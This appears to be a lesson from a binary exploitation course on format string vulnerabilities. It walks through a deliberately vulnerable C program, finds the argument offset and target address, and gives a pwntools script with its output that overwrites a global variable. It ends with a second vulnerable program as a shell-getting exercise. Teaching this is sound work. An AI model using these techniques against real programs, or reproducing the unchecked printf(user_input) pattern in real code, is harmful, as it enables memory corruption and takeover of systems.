 # Format String Vulnerabilties

### Format String Vulnerabilties

Yes, I know this is a really cliche topic but I am just covering one cool thing that you can do with pwntools. That's all, I promise. Now, we will be looking at this simple program that is vulnerable to a format string attack. The idea is to modify the token so that it contains 0xcafebabe when the check occurs.

```
#include <stdio.h>
#include <stdlib.h>

unsigned int token = 0xdeadbeef;

int main() {
    char buffer[200];
    scanf("%199s", buffer);
    printf(buffer);
    printf("\nToken = 0x%x\n", token);
    if (token == 0xcafebabe) {
        puts("Winner!");
    }
    else {
        puts("Loser!");
    }
}
```

So after playing around with the program, we figure out that the first format argument we control is at offset 5.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/13_fmt_str/scripts$ ../build/2_overwrite
AAAA%5$x
AAAA41414141
Token = 0xdeadbeef
Loser!
```

Next, we need the address of the token.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/13_fmt_str/scripts$ nm ../build/2_overwrite | grep token
0804a028 D token
```

Now we can write our exploit script. Pwntools actually has a format string attack generator so we can beat the binary in a few quick easy lines.

```
#!/usr/bin/python

from pwn import *

token_addr = 0x0804a028

def main():
    p = process("../build/2_overwrite")
    payload = fmtstr_payload(5, {token_addr: 0xcafebabe})
    log.info("Sending payload: %s" % payload)
    p.sendline(payload)

    data = p.recvall()
    realdata = data[data.find("Token"):]
    log.success(realdata)

if __name__ == "__main__":
    main()
```

Running the program.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/13_fmt_str/scripts$ python 1_overwrite_token.py
[+] Starting local process '../build/2_overwrite': Done
[*] Sending payload: (�)�*�+�%174c%5$hhn%252c%6$hhn%68c%7$hhn%204c%8$hhn
[▁] Receiving all data: 0B
[+] Receiving all data: Done (742B)
[+] Token = 0xcafebabe
    Winner!
```

### Exercises

#### Ex 13.1: Echoes

Before you continue onto the more advanced exercises, here's something to tackle. The source code to this challenge is given:

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    char echoed[1000] = {0};
    char number[200];
    int times;
    int i;
    while (1) {
        read(0, echoed, 999);
        puts("How many times do you want it echoed?");
        scanf("%199s", number);
        times = atoi(number);
        for (i = 0; i < times; i++) {
            printf(echoed);
        }
    }
}
```

The binary to the exercise can be found here. The remote target is `nc localhost 1903` and the goal is to get a shell.
